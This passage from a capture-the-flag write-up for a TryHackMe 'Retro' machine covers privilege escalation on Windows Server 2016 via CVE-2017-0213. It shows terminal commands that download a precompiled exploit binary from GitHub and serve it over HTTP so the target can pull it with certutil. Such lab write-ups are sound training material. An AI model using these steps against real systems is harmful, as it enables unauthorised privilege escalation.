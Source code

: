 There is another exploit that works on this version of Windows Server 2016. In fact this one is much easier to use. Rapid7 has an article [here](https://www.rapid7.com/db/vulnerabilities/msft-cve-2017-0213/) that explains it:

```text
An elevation of privilege exists in Windows COM Aggregate Marshaler. An attacker who successfully exploited the vulnerability could run arbitrary code with elevated privileges
```

If you search you'll find a few proof of concepts available for this. Let's get one:

```text
┌──(root💀kali)-[~/thm/retro]
└─# wget https://github.com/WindowsExploits/Exploits/raw/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip                                              
--2021-05-08 17:02:03--  https://github.com/WindowsExploits/Exploits/raw/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip
Resolving github.com (github.com)... 140.82.121.3
Connecting to github.com (github.com)|140.82.121.3|:443... connected.
HTTP request sent, awaiting response... 302 Found
Location: https://raw.githubusercontent.com/WindowsExploits/Exploits/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip [following]
--2021-05-08 17:02:03--  https://raw.githubusercontent.com/WindowsExploits/Exploits/master/CVE-2017-0213/Binaries/CVE-2017-0213_x64.zip
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 83287 (81K) [application/zip]
Saving to: ‘CVE-2017-0213_x64.zip’

CVE-2017-0213_x64.zip    100%     [==================>]  81.33K  --.-KB/s    in 0.02s   

2021-05-08 17:02:04 (3.45 MB/s) - ‘CVE-2017-0213_x64.zip’ saved [83287/83287]
```

Make sure you get a x64 version. Now unzip it and start a webserver so we can get to it:

```text
┌──(root💀kali)-[~/thm/retro]
└─# unzip CVE-2017-0213_x64.zip
Archive:  CVE-2017-0213_x64.zip
  inflating: CVE-2017-0213_x64.exe   

┌──(root💀kali)-[~/thm/retro]
└─# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

Switch back to the desktop on the server and use certutil to pull the file over:

![retro-certutil](../assets/images/2021-05-08-17-07-48.png)
